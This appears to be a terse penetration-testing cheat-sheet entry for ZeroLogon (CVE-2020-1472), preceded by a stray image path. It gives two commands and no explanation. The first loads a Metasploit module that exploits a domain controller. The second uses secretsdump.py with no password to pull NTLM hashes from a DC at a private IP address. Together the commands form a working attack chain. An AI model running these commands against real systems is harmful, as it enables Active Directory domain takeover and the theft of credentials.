 # ZeroLogon

```
use auxiliary/admin/dcerpc/cve_2020_1472_zerologon
```

```sh
secretsdump.py DC1\$@192.168.179.132 -no-pass -just-dc-ntlm
```